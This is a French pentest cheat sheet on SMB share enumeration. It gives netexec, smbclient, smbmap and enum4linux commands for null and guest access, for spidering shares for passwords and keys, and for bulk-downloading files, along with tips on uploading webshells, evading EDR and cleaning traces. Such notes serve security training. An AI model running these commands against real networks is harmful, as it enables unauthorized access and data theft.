

Ce document détaille les méthodologies de reconnaissance et d'énumération des partages **SMB** pour l'identification de fichiers sensibles. Cette phase s'inscrit dans une démarche de post-exploitation ou de reconnaissance interne, souvent liée aux sujets **SMB Enumeration**, **Password Attacks** et **Active Directory Enumeration**.



## 1. Techniques d'authentification (null session vs guest vs credentials)

L'accès aux partages SMB dépend du niveau d'authentification autorisé par la cible. Il est crucial de distinguer ces modes pour adapter la stratégie d'énumération.

- **Null Session** : Connexion sans nom d'utilisateur ni mot de passe. Souvent désactivée par défaut sur les systèmes modernes, mais peut être présente sur des serveurs legacy ou mal configurés.
- **Guest Access** : Utilisation du compte invité. Contrairement à la Null Session, le serveur reconnaît une identité (Guest), ce qui peut parfois offrir des permissions différentes.
- **Credentials** : Utilisation d'identifiants valides (clair ou hash).

```bash
# Test de Null Session
netexec smb target.com -u '' -p ''

# Test avec Guest Access
netexec smb target.com -u 'Guest' -p ''

# Test avec identifiants récupérés
netexec smb target.com -u user -p password --shares
```

## 2. Lister les Partages Accessibles

L'énumération initiale permet d'identifier les ressources partagées sur le réseau. L'outil **netexec** (successeur de **crackmapexec**) est privilégié pour ces opérations.

> [!warning] Différence entre Null Session et Guest Access
> Une **Null Session** permet de se connecter sans nom d'utilisateur ni mot de passe, tandis que le **Guest Access** utilise un compte invité. Les permissions peuvent varier drastiquement selon la configuration du serveur.

### Lister les partages avec netexec
```bash
netexec smb target.com --shares -u '' -p ''
```

### Lister les partages avec smbclient
```bash
smbclient -L //target.com -N
```

## 3. Analyse des permissions (ACLs)

L'analyse des permissions est essentielle pour identifier les vecteurs d'attaque potentiels. Une mauvaise configuration des **ACLs** (Access Control Lists) peut permettre une lecture non autorisée ou une écriture malveillante.

```bash
# Vérifier les permissions avec smbmap
smbmap -H target.com -u user -p password

# Analyser les permissions spécifiques sur un dossier
smbclient //target.com/share -U user -c "allinfo folder_name"
```

> [!tip] Vérifier les permissions d'écriture : possibilité d'upload de webshell ou de fichiers malveillants
> Si l'accès en écriture est détecté, il est possible d'uploader des fichiers malveillants (ex: .lnk, .exe, ou webshells si le partage est accessible via IIS) pour obtenir une exécution de code.

## 4. Explorer les Dossiers Partagés

Une fois les partages identifiés, l'exploration manuelle ou automatisée permet de cartographier l'arborescence des fichiers.

### Exploration manuelle
```bash
smbclient //target.com/public -N
ls
cd confidential
```

### Lister récursivement les fichiers
```bash
smbclient //target.com/public -N -c "recurse; ls"
```

## 5. Recherche Automatique de Fichiers Sensibles

Le spidering permet d'automatiser la recherche de fichiers contenant des chaînes de caractères critiques (mots de passe, clés privées, fichiers de configuration).

> [!danger] Attention au bruit généré sur le réseau par le spidering récursif
> Un scan intensif peut être détecté par les solutions de sécurité (EDR/IDS). Il est recommandé de limiter la profondeur de recherche si nécessaire.

### Recherche avec netexec
```bash
netexec smb target.com --spider public -q --pattern *password* *secret* *key*
```

### Exploration avec smbmap
```bash
smbmap -H target.com -R public
```

### Énumération avec enum4linux
```bash
enum4linux -S target.com
```

## 6. Télécharger des Fichiers Sensibles

L'exfiltration de fichiers identifiés permet d'analyser leur contenu localement.

### Téléchargement unitaire
```bash
smbclient //target.com/public -N -c "get passwords.txt"
```

### Téléchargement récursif
```bash
smbclient //target.com/public -N -c "prompt OFF; mget *"
```

## 7. Risques liés à l'exécution de scripts sur les partages

L'exécution de scripts ou de binaires directement depuis un partage réseau peut être bloquée par les politiques d'exécution (ex: **AppLocker**, **Constrained Language Mode**). Cependant, le téléchargement local suivi de l'exécution est souvent une alternative viable.

> [!danger] Risque de blocage par les solutions EDR/IDS lors de scans intensifs
> L'énumération agressive des partages peut déclencher des alertes de type "SMB Enumeration" ou "Anomalous File Access". Toujours privilégier une approche discrète.

## 8. Nettoyage des traces

Après l'exfiltration, il est impératif de supprimer les fichiers temporaires créés sur la machine d'attaque et de s'assurer qu'aucune connexion persistante n'est maintenue.

```bash
# Supprimer les fichiers téléchargés localement
rm -rf /tmp/smb_exfil/*

# Fermer les sessions SMB actives
smbstatus
# Si nécessaire, redémarrer le service smbd ou déconnecter les montages
umount /mnt/smb_share
```

## Résumé des Commandes

| Étape | Commande |
| :--- | :--- |
| Lister les partages | `netexec smb target.com --shares -u '' -p ''` |
| Explorer un partage | `smbclient //target.com/public -N` |
| Lister les fichiers récursivement | `smbclient //target.com/public -N -c "recurse; ls"` |
| Chercher des fichiers sensibles | `netexec smb target.com --spider public -q --pattern *password* *key*` |
| Télécharger un fichier | `smbclient //target.com/public -N -c "get secret.txt"` |
| Télécharger un dossier entier | `smbclient //target.com/public -N -c "prompt OFF; mget *"` |

> [!note] Risque de blocage
> L'utilisation d'outils automatisés peut déclencher des alertes sur les solutions de détection de comportement (EDR). Privilégier une approche discrète en environnement contrôlé.